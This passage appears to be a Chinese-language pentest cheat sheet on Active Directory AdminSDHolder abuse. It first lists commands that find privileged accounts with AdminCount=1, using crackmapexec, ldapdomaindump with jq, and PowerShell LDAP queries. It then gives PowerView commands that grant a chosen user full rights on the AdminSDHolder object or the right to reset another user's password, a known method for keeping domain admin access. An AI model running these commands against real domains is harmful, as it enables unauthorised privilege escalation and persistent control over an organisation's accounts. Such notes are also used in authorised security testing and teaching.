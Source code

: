 	如果您不希望每小时都覆盖修改过的 ACL，则应更改对象上的 ACL 模板CN=AdminSDHolder,CN=System或将所需对象的"AdminCount属性设置为0
	当用户被分配到任何特权组时， AdminCount 属性自动设置为1，但当用户从这些组中删除时，它永远不会自动取消设置。
	使用 查找用户AdminCount=1
	>crackmapexec ldap 10.10.10.10 -u username -p password --admin-count
	或
	>python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
	>jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
	或
	>Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
	>Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
	或
	>([adsisearcher]"(AdminCount=1)").findall()
  ### AdminSDHolder
  	将用户添加到 AdminSDHolder 组
	>Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose
	赋予账号titi为toto重置密码的权利
	>Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword
	赋予所有权利
	>Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All